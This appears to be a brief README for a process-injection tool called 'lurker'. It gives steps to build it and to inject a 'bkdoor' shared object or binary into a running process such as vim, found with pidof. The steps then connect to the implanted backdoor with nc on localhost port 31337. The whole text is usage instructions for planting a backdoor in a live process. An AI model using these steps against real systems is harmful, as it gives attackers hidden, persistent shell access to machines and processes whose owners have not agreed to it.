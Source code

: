 1. Run `make`.

2. start the target process, such as `vim`, by executing: `vim`.

3. In another terminal, execute: ./lurker \`pidof vim\` \`pwd\`/bkdoor_so.so OR ./lurker --b \`pidof vim\` bkdoor.o.bin to inject the code into the target process, such as `vim`.

4. Finally,  `nc 127.0.0.1 31337`.


